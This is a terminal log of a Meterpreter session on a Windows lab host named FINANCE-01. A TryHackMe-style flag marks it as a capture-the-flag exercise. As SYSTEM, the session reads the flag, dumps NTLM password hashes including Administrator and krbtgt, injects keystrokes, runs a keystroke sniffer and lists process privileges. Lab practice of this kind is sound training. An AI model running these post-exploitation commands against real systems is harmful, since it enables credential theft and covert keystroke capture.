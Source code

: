 ```
meterpreter > cat 'c:\Users\Administrator\Desktop\flag.txt'
THM{SiGBQPMkSvejvmQNEL}

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hostname
[-] Unknown command: hostname
meterpreter > sysinfo
Computer        : FINANCE-01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : THMDEPARTMENT
Logged On Users : 7
Meterpreter     : x64/windows

meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:001a5b3e266374c0df96a298f7f7419f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f8b2337852443abbf18a807b1052bb77:::
sjohnston:1000:aad3b435b51404eeaad3b435b51404ee:9b06562a2168a1f094aa0d9aae222793:::
FINANCE-01$:1001:aad3b435b51404eeaad3b435b51404ee:016aa3670d0974f6d5642a01ecd77825:::

meterpreter > enumdesktops
Enumerating all accessible desktops

Desktops
========

    Session  Station  Name
    -------  -------  ----
    0        WinSta0  Default
    0        WinSta0  Disconnect
    0        WinSta0  Winlogon

meterpreter > idletime
User has been idle for: 1 hour 12 mins 28 secs

meterpreter > keyboard_send hi
[*] Done
meterpreter > keyevent 13 press
[*] Done

meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_stop
Stopping the keystroke sniffer...

meterpreter > getpid
Current pid: 3960

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
```